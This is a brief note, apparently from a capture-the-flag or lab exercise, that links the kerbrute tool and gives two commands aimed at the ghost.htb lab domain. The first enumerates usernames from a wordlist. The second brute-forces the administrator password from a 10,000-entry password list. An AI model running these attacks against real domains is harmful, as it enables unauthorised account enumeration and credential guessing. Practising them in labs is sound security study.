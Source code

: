 https://github.com/ropnop/kerbrute
https://hackingarticles.in/a-detailed-guide-on-kerbrute/

```
./kerbrute userenum --dc dc01.ghost.htb -d ghost.htb ~/wordlists/wordlists/SecLists/Usernames/top-usernames-shortlist.txt
```

```
./kerbrute bruteuser --dc dc01.ghost.htb -d ghost.htb ~/wordlists/wordlists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt administrator
```